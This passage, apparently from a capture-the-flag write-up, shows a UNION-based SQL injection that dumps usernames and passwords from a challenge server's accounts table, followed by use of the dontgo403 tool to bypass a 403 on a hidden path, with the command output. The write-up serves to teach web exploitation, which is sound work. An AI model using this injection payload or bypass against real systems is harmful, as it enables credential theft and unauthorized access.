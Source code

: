Get data from table

```bash
username=kiran" union select 1,2,3,(select group_concat(username|| ' : ' ||password||' | ') from accounts); --
```

```bash
["1","2","3","kiran : nothing here | ,whahtwhatwhatwat : something here | ,flagishere90 : and_Adm1t_ | ,complexname9191681 : path:/secretsforyou | "]
```

> and_Adm1t_


#### 4th Flag - Information Disclosure , authorization bypass

Got path : `/secretsforyou` from sql injection

```bash
┌──(bravosec㉿fsociety)-[/opt/sectools/web/Bypasses/dontgo403]
└─$ curl -s http://chal.pctf.competitivecyber.club:9090/secretsforyou/|h2t

4BI
-------------------------------------------------------------------------------
  3N!
You donât have permission to access /secretsforyou/ on this server.
```

Bypass authorization

```bash
┌──(bravosec㉿fsociety)-[/opt/sectools/web/Bypasses/dontgo403]
└─$ ./dontgo403 -u http://chal.pctf.competitivecyber.club:9090/secretsforyou

                                                                                       .#%%:  -#%%%*.  +#%%#+.
                                                                                      =@*#@: =@+  .%%.:+-  =@*
         :::.                             ...                                       .#@= *@: *@:   *@:  :##%@-
         :::.                             :::.             ..    -:..-.    ..   ::  =%%%%@@%:=@*. :%% =*-  :@%
 .::::::::::.   .::::::.   .:::::::::.  ::::::::.  .:::::::::.  .=::..:==-=+++:.         +#.  -*#%#+.  =*###+.
.:::....::::. .:::....:::. .::::...:::. ..::::..  ::::....:::   --::..-=+*=:.
:::.     :::. :::.    .::: .:::    .:::   :::.   ::::     .:::  -=::-*#+=:
::::    .:::. ::::    :::: .:::    .:::   :::.   .:::.    :::.  +-:::=::.
 :::::.:::::.  ::::..::::  .:::    .:::   .:::.:. .:::::::::.  .+=:::::.
  ..::::.:::    ..::::..   .:::     :::    ..:::.   .....::::.   -=:.::
                                                 .:::     ::::
                                                  :::::..::::.

Target:                 http://chal.pctf.competitivecyber.club:9090/secretsforyou
Headers:                false
Proxy:                  false
User Agent:             dontgo403
Method:                 GET
Payloads folder:        payloads
Custom bypass IP:       false
Verbose:                false

━━━━━━━━━━━━━ DEFAULT REQUEST ━━━━━━━━━━━━━
200      2087 bytes http://chal.pctf.competitivecyber.club:9090/secretsforyou

━━━━━━━━━━━━━ VERB TAMPERING ━━━━━━━━━━━━━━
200       175 bytes HEAD
200       199 bytes OPTIONS
```